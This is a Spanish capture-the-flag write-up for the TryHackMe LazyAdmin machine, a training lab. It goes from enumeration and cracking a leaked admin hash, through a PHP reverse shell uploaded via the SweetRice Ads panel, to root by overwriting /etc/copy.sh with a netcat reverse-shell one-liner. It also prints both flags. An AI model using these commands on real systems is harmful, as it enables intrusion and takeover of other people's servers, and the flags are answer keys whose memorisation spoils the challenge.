# Write-up LazyAdmin

## Reconocimiento

### Escaneo con Nmap

Realizamos un escaneo inicial para identificar los servicios expuestos:

```bash
nmap -sC -sV -T4 -p 1-10000 IP
```

Puertos encontrados:

- `22/tcp` SSH
- `80/tcp` HTTP Apache 2.4.18 sobre Ubuntu



### Enumeración web con Gobuster

Enumeramos directorios en el servicio web:

```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se encuentra el directorio:

- `/content/`

Al acceder a esta ruta, aparece una referencia al CMS `SweetRice`.

Lanzamos una segunda enumeración contra `/content/`:

```bash
gobuster dir -u http://IP/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se identifican varios directorios interesantes:

- `/content/images/`
- `/content/js/`
- `/content/inc/`
- `/content/as/`
- `/content/_themes/`
- `/content/attachment/`



En `/content/as/` encontramos un panel de login del CMS.

En `/content/inc/` aparece un directorio llamado `mysql_backup`, que contiene un archivo `.sql`.



## Obtención de credenciales

### Análisis del backup SQL

Descargamos el archivo SQL desde el navegador y lo renombramos a un nombre más sencillo:

```text
mysql.sql
```

Buscamos posibles usuarios, contraseñas o hashes dentro del backup:

```bash
grep -Ein "pass|password|passwd|pwd|hash|md5|sha1|sha256|bcrypt|token|secret|api[_-]?key|login|user|username|correo|email" mysql.sql
```

En el resultado aparecen posibles credenciales:

- Usuario: `manager` o `admin`
- Hash: `42f749ade7f9e195bf475f37a44cafcb`



Guardamos el hash en un archivo llamado `hash.txt` y lo rompemos con Hashcat usando `rockyou.txt`:

```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

La contraseña obtenida es:

```text
Password123
```



Con estas credenciales accedemos al panel del CMS desde:

```text
http://IP/content/as/
```



## Explotación

### Subida de una reverse shell

Dentro del panel encontramos la sección `Ads`, que permite añadir código.

Descargamos una reverse shell en PHP desde Pentestmonkey:

```text
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Editamos la configuración de la shell con nuestra IP y el puerto de escucha.



Renombramos el archivo a:

```text
lazyshell.php
```

En nuestra máquina abrimos un listener:

```bash
nc -lvnp 4445
```

Copiamos el código de la shell y lo pegamos en:

```text
Dashboard -> Ads
```

Después pulsamos en `Done`.



Para ejecutar la shell, accedemos a la siguiente ruta:

```text
http://IP/content/inc/ads/lazyshell.php
```



Recibimos una shell como el usuario `www-data`.



## Acceso como usuario

La primera flag se encuentra en el directorio del usuario `itguy`:

```bash
cd /home/itguy/
```

Flag de usuario:

```text
THM{63e5bce9271952aad1113b6f1ac28a07}
```



## Escalada de privilegios

### Revisión de permisos sudo

Al ejecutar `sudo -l`, vemos que `www-data` puede ejecutar el siguiente comando:

```bash
/usr/bin/perl /home/itguy/backup.pl
```

El script `backup.pl` ejecuta `/etc/copy.sh`, por lo que podemos modificar ese archivo para obtener una shell como `root`.

Primero abrimos otro listener en nuestra máquina:

```bash
nc -lvnp 4446
```

Después, en la máquina víctima, sobrescribimos `/etc/copy.sh` con una reverse shell. Hay que cambiar la IP por la de nuestra máquina atacante:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-ATACANTE 4446 >/tmp/f' > /etc/copy.sh
```

Ejecutamos el script permitido por `sudo`:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Recibimos una shell como `root`.



## Resultado

La flag de `root` se encuentra en `/root`:

```text
THM{6637f41d0177b6f37cb20d775124699f}
```


